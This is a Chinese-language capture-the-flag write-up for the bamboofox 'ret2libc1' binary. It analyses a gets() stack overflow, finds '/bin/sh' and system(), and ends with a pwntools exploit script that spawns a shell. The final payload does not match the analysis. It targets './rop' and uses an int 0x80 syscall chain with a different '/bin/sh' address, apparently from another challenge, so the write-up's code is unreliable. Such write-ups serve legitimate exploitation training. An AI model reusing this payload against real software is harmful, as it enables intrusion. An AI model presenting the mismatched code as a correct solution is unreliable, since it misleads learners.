 # bamboofox - ret2libc1

**检查文件**

```
$ checksec --file=ret2libc
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   84) Symbols       No    0               1               ret2libc
```

```
$ file ret2libc
ret2libc: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fb89c86b266de4ff294489da59959a62f7aa1e61, with debug_info, not stripped
```

目标文件为 32 位，开启了 NX 保护。下面对程序进行反编译以确定漏洞位置：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(s);
  return 0;
}
```



对程序进行测试，对其输入一个长度为200的随机字符串，程序崩溃，确认漏洞点产生于`gets`函数

```
$ ./ret2libc 
RET2LIBC >_<
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
[1]    228860 segmentation fault (core dumped)  ./ret2libc
```

利用`ropgadget`查看程序中是否存在 `/bin/sh` 存在：

```
$ ROPgadget --binary ret2libc --string '/bin/sh'        
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有 system 函数存在。经在 ida 中查找，确实也存在

![](./images/function_system.png)

那么，我们直接返回该处，即执行 system 函数。



相应的 payload 如下:

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

